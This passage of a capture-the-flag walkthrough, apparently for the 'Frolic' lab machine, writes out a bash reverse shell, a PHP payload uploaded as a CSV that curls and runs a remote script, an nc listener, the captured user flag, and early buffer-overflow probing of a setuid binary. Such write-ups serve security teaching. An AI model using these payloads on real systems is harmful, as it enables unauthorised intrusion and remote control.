 
// Now we can make a reverse shell

    $ cat revshell 
    bash -i >& /dev/tcp/10.10.16.232/1444 0>&1

// We will upload the shell with python http server 

    $ python3 -m http.server 1445
    Serving HTTP on 0.0.0.0 port 1445 (http://0.0.0.0:1445/) ...

// The upload file

    $ cat backdoor2.csv
    <?php echo exec('curl http://10.10.16.232:1445/revshell | bash'); ?>,1

// Open a listiner with nc on port 1444 and upload backdoor2.csv file

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.16.232] from (UNKNOWN) [10.10.10.111] 45400
    bash: cannot set terminal process group (1227): Inappropriate ioctl for device
    bash: no job control in this shell

    www-data@frolic:~/html/playsms$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

// We got a shell !! And user flag !

    www-data@frolic:/home/ayush$ cat user.txt
    2ab95909cf509f85a6f476b59a0c2fe0


### -----Privilleges Escalation------

// After some search for some interesting files i found hidden directory at ayush user called '.binary'

// Inside the folder was a executable file called rop

    www-data@frolic:/home/ayush/.binary$ file rop
    rop: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=59da91c100d138c662b77627b65efbbc9f797394, not stripped

// Launch this file output:

    www-data@frolic:/home/ayush/.binary$ rop
    [*] Usage: program <message>

// Its seems that its request to input some massage

// Lets try to check if its vulnerable to [Buffer Overflow Attack](https://www.veracode.com/security/buffer-overflow)(Segmentation fault)

    www-data@frolic:/home/ayush/.binary$ rop aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa                    
    [+] Message sent: rop aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    www-data@frolic:/home/ayush/.binary$ rop aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa                
    [+] Message sent: rop aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    www-data@frolic:/home/ayush/.binary$ rop aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa               
    [+] Message sent: rop aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    www-data@frolic:/home/ayush/.binary$ rop aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    bash: [1638: 2 (255)] tcsetattr: Inappropriate ioctl for device

// After some checks we can see that this file is vulnerable to [Buffer Overflow](https://www.veracode.com/security/buffer-overflow)
    
    
    
    
